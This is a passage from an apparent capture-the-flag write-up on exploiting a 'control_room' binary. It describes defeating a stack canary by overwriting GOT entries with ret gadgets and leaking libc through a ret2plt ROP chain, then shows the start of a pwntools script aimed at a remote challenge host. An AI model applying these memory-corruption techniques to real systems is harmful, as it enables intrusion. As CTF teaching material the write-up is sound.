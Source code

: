 Close, but no cigar...

![Attempt 2 Exploit](./images/control/ss1.png)

Since the program has a stack canary mitigation, it is calling `__stack_chk_fail` and aborting before we can hijack execution.
Well - let's just overwrite the GOT entry for `__stack_chk_fail` with a `ret` gadget, and the adjacent `strlen()` with a ret too.

This time it worked! We leaked libc using a ret2plt rop chain, and returned to the `configure_engine` function for
a second round.

![Attempt 3 Exploit](./images/control/ss2.png)

With LIBC, exploitation is trivial. Exploit code below.

```python
from pwn import *

IP, PORT = "161.35.168.118" ,31978
elf = ELF("./control_room_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
context.binary = elf
# context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']

gs = '''
continue
'''

```